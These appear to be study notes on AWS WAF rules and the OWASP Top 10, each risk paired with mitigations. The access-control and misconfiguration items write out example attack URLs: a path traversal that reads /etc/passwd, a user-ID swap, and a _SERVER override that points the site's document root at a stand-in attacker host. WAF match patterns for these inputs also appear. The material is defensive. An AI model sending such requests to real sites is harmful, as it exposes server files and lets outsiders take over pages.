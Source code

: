 ### DEMO-2 Virtual Patching
Example : Apache Struts Vulnerability
When a condition is attached to Rule, you can define whether block or allow when the condition is true

Rate-Based Rule + URI String Match Condition = protect Brute Force Login Attemps


### DEMO-3 Brute Force on Login

When define a rule , there are 2 options,  "Regular rule" or "Rate Based Rule". For this scenario, we use "Rate Based Rule"

Define "Rate Based Rule" with the "/login" URI match condition, set 2000 times / 5 min

# OWASP Top 10

* A1 : Injection

* A2 : Broken Authentication and Session Management
  * Hard to distinguish legistimate Users
  * Automate update of black list of token When
    * different location with same token
    * abnormal login rate

* A3 : Cross Site Scripting (XSS)
  * for example, a blog platform has a user published a blog with embeded script loading from his own website to run in browser (who ever browse this perticular blog) and exploit the key inputs
  * It's easy to block content with Script tag from Body, querystring or cookie; but needs to be carefully thinking about other requirement like SVG graphics (using script tag)

* A4 : Broken Access Control

  * http://mywebsite/editprofile?userid=1234 ; once authenticated, user 1234 can access http://mywebsite/editeprofile?userid=4567
    * __Mitigate__: Hard, possibly match signature
  * http://mywebsite/download?file=file1.pdf ; once authenticated, user can manipulate the file path and expose any file on Server (http://mywebsite/download?file=../../../../etc/passwd)
    * Directory Traversal
    * Local file Inclusion
    * __Mitigate__:can use WAF to match against ../,://
  * http://mywebsite/?module=myprofile&action=edit ; once authenticated, user try to visit http://mywebsite/?module=management&action=edit
    * __Mitigate__: limit source if possible;
    * __Mitigate__: User lambda@edge (???)
* A5 : Security Misconfiguration
    * Leave web server __ServerTokens Full__ (default config) which expose exact version and components for attackers to use known Vulnerabilities
    * Leave default directory listing enabled
    * Return stack trace in error page
    * PHP bug to allow request parameter registered as global variable; attackers use this to overwrite global variable http://mywebsite/?_SERVER[DOCUMENT_ROOT]=http://attackerswebsite/bad.htm ; this will change doc root to another website.
      * __Mitigate__: block query string with _SERVER
    * __Mitigate__: use __Amazon Inspector__ check against common known mis-configurations
    * __Mitigate__: User __AWS Config__ and __EC2 System Manager__ to track configuration changes over time.
* A6 : Sensitive Data Explosure
  * SHA-1 hashing algorithm; attackers can attempt to cause __hash collision__
  * __Mitigate__: Both ELB and Cloudfront support specify allowed ciphers
* A7 : Insufficient Attack Protection
  * Submit abnormal huge number of requests or single request with huge payload
  * __Mitigate__: Rate based rules & size constraint Rules
  * __Mitigate__: __WAF Security Automation__ with Lambda
    * Lambda analysis access log to update block ip